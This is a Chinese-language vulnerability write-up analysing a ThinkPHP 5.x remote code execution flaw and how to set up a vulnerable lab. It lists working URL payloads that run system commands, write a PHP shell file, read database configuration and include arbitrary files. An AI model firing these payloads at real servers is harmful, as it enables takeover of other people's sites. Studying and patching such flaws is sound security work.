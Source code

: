 本系列文章将针对 **ThinkPHP** 的历史漏洞进行分析，今后爆出的所有 **ThinkPHP** 漏洞分析，也将更新于 [ThinkPHP-Vuln](https://github.com/Mochazz/ThinkPHP-Vuln) 项目上。本篇文章，将分析 **ThinkPHP** 中存在的 **远程代码执行漏洞** 。

## 漏洞概要

本次漏洞存在于 **ThinkPHP** 底层没有对控制器名进行很好的合法性校验，导致在未开启强制路由的情况下，用户可以调用任意类的任意方法，最终导致 **远程代码执行漏洞** 的产生。漏洞影响版本： **5.0.7<=ThinkPHP5<=5.0.22** 、**5.1.0<=ThinkPHP<=5.1.30**。不同版本 **payload** 需稍作调整：

**5.1.x** ：

```
?s=index/\think\Request/input&filter[]=system&data=pwd
?s=index/\think\view\driver\Php/display&content=<?php phpinfo();?>
?s=index/\think\template\driver\file/write&cacheFile=shell.php&content=<?php phpinfo();?>
?s=index/\think\Container/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=id
?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=id
```

**5.0.x** ：

```
?s=index/think\config/get&name=database.username # 获取配置信息
?s=index/\think\Lang/load&file=../../test.jpg    # 包含任意文件
?s=index/\think\Config/load&file=../../t.php     # 包含任意.php文件
?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=id
```

## 漏洞环境

通过以下命令获取测试环境代码：

```bash
composer create-project --prefer-dist topthink/think tpdemo
```

将 **composer.json** 文件的 **require** 字段设置成如下：

```json
"require": {
    "php": ">=5.6.0",
    "topthink/framework": "5.1.30"
},
```

然后执行 `composer update` 。接着访问 **http://localhost:8000/index.php?s=index/\think\Container/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=1** 链接，即可触发 **远程代码执行漏洞** 。

![1](ThinkPHP5漏洞分析之代码执行9/1.png)

